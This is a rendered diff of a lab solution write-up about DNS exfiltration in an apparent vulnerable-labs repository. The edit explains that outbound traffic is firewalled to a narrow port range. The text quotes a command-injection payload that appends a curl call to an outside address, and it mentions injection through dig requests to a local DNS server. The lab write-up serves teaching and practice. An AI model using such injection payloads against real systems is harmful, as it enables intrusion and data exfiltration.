

Before and after one commit to 0xPThree/vuln-labs, a Markdown page: solutions/dns-exfil/README.md, the part around the change. Rendered like a GitHub page.

```diff
--- a/solutions/dns-exfil/README.md
+++ b/solutions/dns-exfil/README.md
@@ -1,6 +1,6 @@
 # DNS Exfiltration
 ## Getting command injection
-Testing simple payloads like `google.com;curl http://172.17.0.1/test` will hang until the clean-up script `monitor-processes.sh` will kill it, generating the error message `Bad input!`.
+Testing simple payloads like `google.com;curl http://172.17.0.1/test` will hang (because iptables only allowing outgoing TCP on ports 49335-49355) until the clean-up script `monitor-processes.sh` will kill it, generating the error message `Bad input!`.
 
 After a bit of trail-and-error the user will find that command injection is possible by setting up a local DNS server and sending `dig` requests to it.
 
```
